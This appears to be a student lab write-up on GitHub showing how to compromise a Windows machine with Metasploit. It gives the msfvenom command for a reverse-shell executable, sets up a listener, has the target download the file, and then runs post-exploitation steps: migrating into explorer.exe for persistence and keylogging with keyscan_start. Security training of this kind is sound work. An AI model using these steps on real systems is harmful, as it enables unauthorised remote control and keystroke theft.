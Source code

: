 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## Find the attackers ip address using ifconfig
## OUTPUT :
![Screenshot 2025-05-15 235928](https://github.com/user-attachments/assets/b3d7920e-c4e2-4946-a859-7b89a4d3b26c)

## Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT :
![Screenshot 2025-05-16 000004](https://github.com/user-attachments/assets/2a20ddfe-bc02-4f02-ab60-678797a11874)
copy the fun.exe into the apache /var/www/html folder sudo systemctl apache2 start

## Check the status of apache2
## OUTPUT :
![Screenshot 2025-05-16 000035](https://github.com/user-attachments/assets/3ba3c81c-adc2-459a-95e0-f7201e42f61d)
## Invoke msfconsole:
## OUTPUT:
![Screenshot 2025-05-16 000107](https://github.com/user-attachments/assets/21a6f643-9de2-4f8e-9746-1c3e4d427e3b)
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## OUTPUT :
![Screenshot 2025-05-16 000139](https://github.com/user-attachments/assets/9952b9be-7303-4ac6-b21f-3fb17ebbd8cb)
Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

## OUTPUT :
![Screenshot 2025-05-16 000215](https://github.com/user-attachments/assets/a5f0b4e3-4f27-4eb3-80f9-2759800d671c)
## WINDOWS :
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads

## BROWSE OUTPUT :
![Screenshot 2025-05-15 233023](https://github.com/user-attachments/assets/8b8d9424-7546-43b8-a5d3-792bc433f802)

## DOWNLOAD OUTPUT :
![Screenshot 2025-05-15 233044](https://github.com/user-attachments/assets/960dda11-c90e-4c9b-b444-78912826fe3c)

## COME BACK TO PARROT :
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

## OUTPUT :
![Screenshot 2025-05-16 000248](https://github.com/user-attachments/assets/a1e582f0-9024-49a6-bec2-23c9da3d4a50)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

## OUTPUT :
![Screenshot 2025-05-16 000315](https://github.com/user-attachments/assets/293fe68a-5dd5-4402-91ad-6060ee02b53a)
## WINDOWS OUTPUT :
![Screenshot 2025-05-15 234517](https://github.com/user-attachments/assets/3c5dbcfa-f78a-4365-993c-95f767b4dc1b)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

## OUTPUT :
![Screenshot 2025-05-16 000346](https://github.com/user-attachments/assets/7fdfe3bd-88f9-49e8-a314-cabc990d0ae9)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
